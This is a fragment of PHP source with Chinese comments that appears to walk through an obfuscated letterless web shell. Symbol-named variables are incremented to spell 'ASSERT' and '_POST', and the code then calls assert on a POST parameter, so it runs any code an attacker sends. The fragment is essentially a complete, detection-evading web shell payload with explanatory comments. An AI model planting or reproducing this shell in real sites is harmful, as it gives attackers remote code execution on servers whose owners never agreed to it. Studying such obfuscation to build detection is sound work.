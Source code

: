     // 创建 'T'
    $__++;$__++;         // $__ = "T"
    $___ .= $__;         // $___ = "ASSERT"

    // $___ 现在持有 "ASSERT"

    // 创建 '_POST'
    $__ = $_;            // $__ = "A"
    $____ = "_";         // $____ = "_"
    // 创建 'P'
    $__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // $__ = "P"
    $____ .= $__;        // $____ = "_P"
    // 创建 'O'
    $__ = $_;            // $__ = "A"
    $__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // $__ = "O"
    $____ .= $__;        // $____ = "_PO"
    // 创建 'S'
    $__++;$__++;$__++;$__++; // $__ = "S"
    $____ .= $__;        // $____ = "_POS"
    // 创建 'T'
    $__++;               // $__ = "T"
    $____ .= $__;        // $____ = "_POST"

    // $____ 现在持有 "_POST"

    // 执行
    $_ = $$____;         // $_ = $_POST (可变变量, 使用字符串 "_POST")
    $___($_[_]);         // ASSERT($_POST[_]) - 调用 ASSERT 函数，以 $_POST[_] 作为参数
                         // 使用未定义的默认常量 "_" 作为数组键。
    ?>
    ```

---